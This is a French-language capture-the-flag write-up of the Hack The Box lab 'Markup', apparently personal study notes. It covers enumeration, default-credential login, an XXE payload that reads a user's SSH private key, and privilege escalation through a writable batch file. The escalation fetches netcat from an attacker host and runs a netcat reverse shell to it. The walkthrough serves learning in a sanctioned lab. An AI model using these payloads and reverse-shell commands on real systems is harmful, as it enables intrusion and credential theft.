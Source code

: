 ## Lab Title: Markup
- Date: 01-10-2025
- Duration: ~120 minutes

### Platform: HTB – Starting Point > Tier 2

### 1. Scenario Summary
1. Une exploitation de **XXE** vulnérabilité
2. Obtenir SSH connexion avec la **clé privée de SSH**
2. **Reverse Shell** par `.bat` fichier.

### 2. Findings
**Enumeration:**
1. Comme d'habitude, on utilise: `nmap`
    - `nmap -Pn -sV $ip` pour trouver les services actuels et leur versions.
    ```code
        22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
        80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
        443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
    ```
2. Parmi ces informations, l'Apache est intéressant pour nous.
    - Quand on a trouvé le site Web: il y a un site avec les options pour faire `login`
    - Et comme d'habitude, on essai avec les informations d'identification par defaut:
    - `https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown`
    - Et on a trouvé: `admin:password` fonctionne bien.

3. Quand on a analysé le site Web >> on a trouvé que le site accepte l'input de l'utilisateur par **Order** fonction.


4. Après, on a analysé `Source Code` et trouvé que **XML a une version**: `XML 1.0`
    - On connaît que `XML` est utilisé comme un standard pour `data representation`

5. Parmi les vulnérabilités, le meilleur est **XXE attaque** >> *XML External Entity* attaque
    - Cette attaque est utilisé pour obtenir les données privées et confidentielles tels que: `/etc/passwd` et `/etc/shadow`
    - Ici, si le **XML parser** est mal-configuré sur le serveur >> il est vulnérable
    - Quand même, c'est possible de faire `data exfiltration` avec cette vulnérabilité.

**Foothold:**
6. Quand on a analysé le code de l'HTML sur le site: on a trouvé cette ligne: `<!-- Modified by Daniel : UI-Fix-9092-->`
    - ça veut dire que l'utilisateur: `Daniel` existe dans le systeme, peut-être
    - On pense que `daniel` a les privilèges pour modifier le code source du site Web
    - Maintenant, on essai trouver le fichier: `.ssh/id_rsa` de Daniel.
    - Le but est de récupérer la **clé privée** de Daniel
        - `<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>`
    - Après cela, il nous donne **la clé privée SSH** de Daniel
    - On sauvera cela dans le nouveau fichier: `id_rsa` >> `touch id_rsa & nvim id_rsa`
    - Et exécuter cette commande: `ssh -i id_rsa daniel@10.129.122.232`
    - Voilà, on accéde à ce systeme >> et on peut trouver le drapeau sur le: `Desktop`

**Privilege Escalation**
7. On veut savoir quelles privilèges l'utilisateur, `daniel` a et donc on teste cette commande: `whoami /priv`
    - rien de spécial
    - Quand on a testé le fichier: `Log-Management/job.bat` >> on a trouvé quelque chose: **Log Cleaner**
    - Il y une application `wevtutil.exe`: *est un utilitaire en ligne de commande utilisé pour gérer les journaux d'événements Windows.*
    - Quand on a analysé `job.bat` par **icacls** >> on a trouvé que il est partie du groupe:
        **BULLETIN\Administrators** et **BULLETIN\Users** >> et voila
8. Maintenant, on peut modifier ce fichier et ajouter ce texte: `C:\Log-Management\nc64.exe -e cmd.exe 10.10.14.52 2323`
    - Pour avoir `nc64.exe` >> on fait `http.server` de la machine attaquant et dans le machine victime, on change à `powershell` et de cette location, on fait:
        - `wget http://10.10.14.52:8000/nc64.exe`
    - Commande Complete: `echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.14.52 2323 > C:\LogManagement\job.bat`
    - Avec cela, on obtenira **reverse shell** >> Quand on fait `nc -lvnp 2323` dans la machine attaquant, on doit répéter quelque fois ça.

9. En fin, j'ai trouvé le drapeau du root: `Desktop/root.txt`

### 3. Idea
- C'est fou avec **XXE** attaque.
1. `ssh -i` >> `-i` pour définir *identity file*
2. **icacls** >> bon de vérifier les privilèges
3. `whomai /priv` >> bon de savoir
4. Trouver quelque fichier avec les privilèges completes avec **icacls** et modifier `job.bat` pour obtenir le `reverse shell`
